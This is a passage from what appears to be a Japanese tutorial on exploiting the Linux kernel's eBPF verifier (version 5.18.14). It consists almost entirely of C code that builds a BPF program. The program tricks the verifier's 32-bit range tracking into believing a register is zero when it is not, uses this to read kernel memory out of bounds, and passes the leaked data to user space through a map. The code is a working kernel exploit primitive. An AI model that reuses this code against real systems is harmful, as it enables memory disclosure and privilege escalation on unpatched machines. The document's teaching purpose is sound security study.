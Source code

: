 ```c
    BPF_EXIT_INSN(),
    BPF_MOV64_REG(BPF_REG_9, BPF_REG_0),

    // R1 --> var_off=(value=0; mask=0xffffffff00000000)
    BPF_LDX_MEM(BPF_DW, BPF_REG_1, BPF_REG_9, 0),
    BPF_ALU64_IMM(BPF_RSH, BPF_REG_1, 32),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_1, 32),
    // R2 --> var_off=(value=0xfffffffe00000001; mask=0)
    BPF_MOV64_IMM(BPF_REG_2, 0xfffffffe),
    BPF_ALU64_IMM(BPF_LSH, BPF_REG_2, 32),
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_2, 1),
    // R1 --> (s32_min=1, s32_max=0, u32_min=1, u32_max=0) / actual:1
    BPF_ALU64_REG(BPF_OR, BPF_REG_1, BPF_REG_2),

    // R2 --> (s32_min=0, s32_max=1, u32_min=0, u32_max=1) / actual:1
    BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_9, 0),
    BPF_JMP32_IMM(BPF_JLE, BPF_REG_2, 1, 2),
    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),

    // R1 --> 0 / actual: 1
    BPF_ALU64_REG(BPF_ADD, BPF_REG_1, BPF_REG_2),
    BPF_MOV32_REG(BPF_REG_1, BPF_REG_1),
    BPF_ALU64_IMM(BPF_SUB, BPF_REG_1, 1),

    // R1 --> 0 / actual: 0x100
    BPF_ALU64_IMM(BPF_MUL, BPF_REG_1, 0x100),

    // 範囲外参照でデータをR2にリーク
    BPF_MOV64_REG(BPF_REG_3, BPF_REG_9),
    BPF_ALU64_REG(BPF_ADD, BPF_REG_3, BPF_REG_1),
    BPF_LDX_MEM(BPF_DW, BPF_REG_2, BPF_REG_3, 0),

    // リークしたデータをユーザー空間で受け取る
    BPF_STX_MEM(BPF_DW, BPF_REG_FP, BPF_REG_2, -0x10),
    BPF_LD_MAP_FD(BPF_REG_ARG1, mapfd),
    BPF_MOV64_REG(BPF_REG_ARG2, BPF_REG_FP), // key
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG2, -0x08),
    BPF_MOV64_REG(BPF_REG_ARG3, BPF_REG_FP), // value
    BPF_ALU64_IMM(BPF_ADD, BPF_REG_ARG3, -0x10),
    BPF_MOV64_IMM(BPF_REG_ARG4, 0),          // flag
    BPF_EMIT_CALL(BPF_FUNC_map_update_elem), // map_update_elem

    BPF_MOV64_IMM(BPF_REG_0, 0),
    BPF_EXIT_INSN(),
  };

  /* ソケット用に設定 */
  union bpf_attr prog_attr = {
    .prog_type = BPF_PROG_TYPE_SOCKET_FILTER,
    .insn_cnt = sizeof(insns) / sizeof(insns[0]),
    .insns = (uint64_t)insns,
    .license = (uint64_t)"GPL v2",
    .log_level = 2,
    .log_size = sizeof(verifier_log),
    .log_buf = (uint64_t)verifier_log
  };

  /* BPFプログラムをロード */
  int progfd = bpf(BPF_PROG_LOAD, &prog_attr);
  printf("%s\n", verifier_log);
  if (progfd == -1) fatal("bpf(BPF_PROG_LOAD)");

```

[^1]: Linuxカーネルのバージョンは5.18.14です。
[^2]: スタックの範囲内だが、値の範囲外